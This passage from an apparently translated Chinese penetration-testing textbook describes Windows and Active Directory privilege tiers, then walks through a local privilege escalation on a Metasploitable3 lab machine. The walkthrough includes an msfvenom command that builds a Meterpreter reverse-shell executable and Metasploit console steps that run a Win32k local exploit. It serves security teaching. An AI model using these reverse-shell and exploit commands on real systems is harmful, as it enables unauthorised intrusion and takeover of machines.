 图 12.1：典型的用户权限层级

根据网络攻击链的方法论，为了达到目标，采取的行动包括提升权限以保持对目标环境的持续性访问。

以下是目标系统中可能找到的用户账户类型：

+   **普通用户**：通过在执行后门的用户级别运行后门获得的典型访问权限。这些是系统（Windows 或 Unix）的普通用户，可以是本地用户或具有有限系统访问权限的域用户，执行的任务仅限于他们被允许执行的范围。

+   **本地管理员**：本地管理员是具有运行系统配置更改权限的系统账户持有者。

+   **委派管理员**：委派管理员是具有管理员权限的本地用户账户。例如，账户操作员或备份操作员是 Active Directory 环境中常用于委派管理任务的典型组。

+   **域管理员**：域管理员是能够管理其所在域的用户。

+   **企业管理员**：企业管理员是拥有维护整个 Active Directory 森林权限的账户。

+   **架构管理员**：架构管理员是能够配置森林架构的用户。架构管理员之所以不被视为最具特权的账户，是因为攻击者无法将用户添加到其他组中：这将限制修改 Active Directory 森林的访问权限。

# 从域用户提升到系统管理员

在大多数情况下，执行控制台级攻击或社交工程攻击的攻击者可能会获得一个普通域用户的访问权限，而该用户并不是本地管理员，这使他们只能访问有限的权限级别。可以绕过这一点，并利用该漏洞在受害者机器上获得系统级访问权限，而不必成为本地管理员。我们将利用 Windows 2008 Metasploitable3 执行本地特权提升攻击。以下是执行该攻击的步骤：

1.  使用`msfvenom`创建一个带有效载荷的可执行文件，运行`sudo msfvenom –p windows/meterpreter/reverse_tcp LHOST=<Kali IP> LPORT=<Port No> -f exe –o Output.exe.`来自 Kali 终端。

1.  使用在*第一章*中创建的`normaluser`用户账户登录 Metasploitable3，并通过文件共享或简单运行 Python HTTP 服务器（`python3 -m http.server <custom port number>`）将文件上传到目标。

1.  一旦文件上传到目标，作为普通用户执行该文件应提供反向 shell 到 Kali Linux。在执行有效载荷之前，请确保先启动 Metasploit 监听器。

1.  当攻击者初步使用普通用户身份访问系统并尝试运行系统级命令时，您将收到`access denied`或`no privilege available to run the commands on the target system`的响应。

1.  这可以通过从 Meterpreter 控制台运行`getsystem`命令来验证，如*图 12.2*所示：![](img/B17765_12_02.png)

    图 12.2：Meterpreter shell 运行 getsystem 命令

1.  我们将探索存在于旧版本 Windows（如 Windows 2008/7）中的本地漏洞。我们将使用最新的本地漏洞利用工具`ms18_8120_win32k_privesc`，该工具利用 Win32k 组件的漏洞，该组件未正确处理内存中的对象属性。您可以将现有的 Meterpreter 会话移到后台，以便通过以下步骤利用后利用模块：

    ```
    meterpreter > background 
    [*] Backgrounding session 1...
    msf6 exploit(multi/handler) > use exploit/windows/local/ms18_8120_win32k_privesc 
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/local/ms18_8120_win32k_privesc) > set session 1
    session => 1
    msf6 exploit(windows/local/ms18_8120_win32k_privesc) > exploit 
    ```
